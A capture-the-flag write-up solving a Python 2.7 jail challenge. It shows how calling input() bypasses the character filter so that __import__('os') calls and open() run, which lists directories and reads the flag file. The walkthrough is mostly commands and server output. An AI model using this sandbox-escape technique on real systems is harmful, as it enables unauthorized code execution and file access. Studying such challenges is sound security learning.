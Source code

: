 # Problem

![Krampus' Return](images/krampus_problem.png)

This problem was a reference to an earlier Krampus problem, a Python 2.7 jail https://ctftime.org/task/7359.

# Resources

- [Python 2.7 Builtins](https://docs.python.org/2.7/library/functions.html#built-in-functions)

# Solution

This was also a jail. It actually took me a while to realize that my commands weren't having effect because of the whimsical responses from the server:

```
$ nc challs.xmas.htsp.ro 13006
░ ▒ ▓ █
CONNECTION ESTABLISHED - PYTHON 2.
CONNECTION WILL BE CLOSED AFTER 5 MINUTES. BE WARY.

<Server>: Krampus stares at you. He has seen you before. Play nice.
<You>: hi krampus
<Server>: You tried to get Krampus' attention. Try something different.
<You>: HELLO
<Server>: You tried to get Krampus' attention. No response.
<You>: ...
<Server>: You tried to get Krampus' attention. He is busy.
<You>: ok
<Server>: Krampus has heard you. You made him curious. ░ ▒ ▓ █
<You>: oh?
<Server>: Krampus has now your attention. Be careful!
<You>: Hi!
<Golem>: *looks towards you*
```

Eventually I typed in a number and started piecing it together.

```
<You>: 2
<Krampus>: 2
<You>: 2+4
<Elf #113>: Yee, what are y'all doing?
<You>: dir()
<Krampus>: ['__builtins__', '__doc__', '__file__', '__name__', '__package__', 'inp']
<You>: inp
<Krampus>: inp
<You>: list(inp)
<Krampus>: ['l', 'i', 's', 't', '(', 'i', 'n', 'p', ')']
```

When you type in an invalid character, the server will have some Elf, Golem, Ice Dragon, or Krampus say something instead of executing your command. Disallowed characters include `'"_+.`, but you can use parentheses to call functions and nest them. Finally, `inp` is a string that copies your input right before it is executed.  My first approach was to try to create a string just like last year's solutions were able to do, and perhaps even call `eval(inp)`, but it was hard to get too far:

```
<You>: next(iter(dir()))   
<Krampus>: __builtins__
```

I started going through [Python 2.7's builtin functions](https://docs.python.org/2.7/library/functions.html#built-in-functions) one by one to find something that could help me. Eventually, I tried `input()`:

```
<You>: input()
'a'
<Krampus>: a
```

! We're getting somewhere. Using `input()` enables us to type invalid characters into `stdin` and avoid the filtering logic. A little more fiddling gets us there:

```
<You>: input()
__import__('os').listdir('/')
<Krampus>: ['lib64', 'tmp', 'opt', 'lib', 'run', 'etc', 'dev', 'sbin', 'proc', 'home', 'mnt', 'srv', 'sys', 'bin', 'usr', 'media', 'root', 'var', 'boot', '.dockerenv', 'chall']
<You>: input()
__import__('os').listdir('/chall/')
<Krampus>: ['flag.txt', 'server.py', 'krampus.py']
<You>: input()
open('flag.txt').read()
<Server>: Senseless words.
<You>: input()
open('/chall/flag.txt').read()
<Krampus>: X-MAS{Th3_4ll_Mighty_pyth0n_b34t5_kr4mpu5_th1s_Xmas}
```

Flag: `X-MAS{Th3_4ll_Mighty_pyth0n_b34t5_kr4mpu5_th1s_Xmas}`
